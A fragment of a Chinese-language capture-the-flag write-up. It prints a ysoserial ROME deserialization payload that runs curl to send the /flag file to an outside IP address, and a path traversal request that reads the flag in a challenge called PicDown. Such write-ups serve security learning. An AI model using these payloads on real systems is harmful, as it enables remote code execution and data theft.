 ![](attachments/Pasted%20image%2020240830111459.png)

存在rome链

ysoserial ROME "curl http://49.232.206.37:23456 -d @/flag"

![](attachments/Pasted%20image%2020240901001851.png)

## 白虎组
### PicDown
直接文件读取

```
page?url=../../../../flag
```
# 半决赛
## AliceWebsite
